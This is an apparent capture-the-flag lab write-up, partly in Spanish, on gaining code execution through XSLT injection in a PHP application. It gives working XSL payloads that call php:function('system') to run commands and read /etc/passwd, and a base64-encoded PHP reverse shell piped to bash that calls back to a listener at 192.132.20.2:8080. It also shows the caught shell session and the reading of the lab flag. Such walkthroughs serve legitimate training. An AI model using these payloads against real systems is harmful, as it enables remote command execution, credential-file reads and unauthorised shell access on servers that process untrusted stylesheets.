


# XSLT to Code Execution


### Enumeración y detección de web


### Test web

test.xml
```xml
<?xml version="1.0"?>
<root>f0ns1!</root>
```
test.xsl
```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
    <xsl:output method="html"/>
    <xsl:template match="/">
    <h2>XSLT Engine Info:</h2>
    <b>Version:</b><xsl:value-of select="system-property('xsl:version')" /><br/>
    <b>Vendor:</b><xsl:value-of select="system-property('xsl:vendor')" /><br/>
    <b>Vendor URL:</b><xsl:value-of select="system-property('xsl:vendor-url')" /><br/>
    </xsl:template>
</xsl:stylesheet>
```

otuput:
```
XSLT Engine Info:
Version: 1.0
Vendor: libxslt
Vendor URL: http://xmlsoft.org/XSLT/ 

```

### Execute remote commands

test_injection.xslt
```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl"
version="1.0">
<!-- We add the PHP's xmlns -->
    <xsl:template match="/">
        <html>
            <!-- We use the php suffix to call the functions -->
            <xsl:value-of select="php:function('system','uname -a')" />
            <!-- Output: 'Php Can Now Be Used In Xsl' -->
        </html>
    </xsl:template>
</xsl:stylesheet>

```


output:
```
Linux demo.ine.local 6.8.0-40-generic #40-Ubuntu SMP PREEMPT_DYNAMIC Fri Jul 5 10:34:03 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux Linux demo.ine.local 6.8.0-40-generic #40-Ubuntu SMP PREEMPT_DYNAMIC Fri Jul 5 10:34:03 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux 
```

test_injection2.xsl
```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl"
version="1.0">
<!-- We add the PHP's xmlns -->
    <xsl:template match="/">
        <html>
            <!-- We use the php suffix to call the functions -->
                <xsl:value-of select="php:function('system','cat /etc/passwd')" />                                                                                                          
            <!-- Output: 'Php Can Now Be Used In Xsl' -->
        </html>
    </xsl:template>
</xsl:stylesheet>

```
output:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
<?xml version="1.0"?>
<html xmlns:php="http://php.net/xsl">syslog:x:101:104::/home/syslog:/bin/false</html>
```

### Remote access:


shell reversa en php:

```bash
root@INE:~/xslt# cat test_php  base64
php -r '$sock=fsockopen("192.132.20.2",8080);exec("/bin/sh -i <&3 >&3 2>&3");'
cat: base64: No such file or directory
root@INE:~/xslt# cat test_php | base64
cGhwIC1yICckc29jaz1mc29ja29wZW4oIjE5Mi4xMzIuMjAuMiIsODA4MCk7ZXhlYygiL2Jpbi9zaCAtaSA8JjMgPiYzIDI+JjMiKTsnCg==
```

xsl malicioso:

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl"
version="1.0">
<!-- We add the PHP's xmlns -->
    <xsl:template match="/">
        <html>
            <!-- We use the php suffix to call the functions -->
                <xsl:value-of select="php:function('system','echo cGhwIC1yICckc29jaz1mc29ja29wZW4oIjE5Mi4xMzIuMjAuMiIsODA4MCk7ZXhlYygiL2Jpbi9zaCAtaSA8JjMgPiYzIDI+JjMiKTsnCg== | base64 -d | bash')" />
            <!-- Output: 'Php Can Now Be Used In Xsl' -->
        </html>
    </xsl:template>
</xsl:stylesheet>

```

ejecución:

```bash
root@INE:~# nc -nlvp 8080
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::8080
Ncat: Listening on 0.0.0.0:8080
Ncat: Connection from 192.132.20.3.
Ncat: Connection from 192.132.20.3:51760.
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ hostname
demo.ine.local
$ pwd
/app
$ /bin/bash
whoami
www-data
cd /home

```




visualización de la flag:

```bash
$ ls -la / | grep flag    
-rw-r--r--   1 root     root       33 Jun  2  2022 flag.txt
$ cat /flag.txt
fdf9c7da429441eaa1620eceafc34d9f
$ 

```


[back](./)
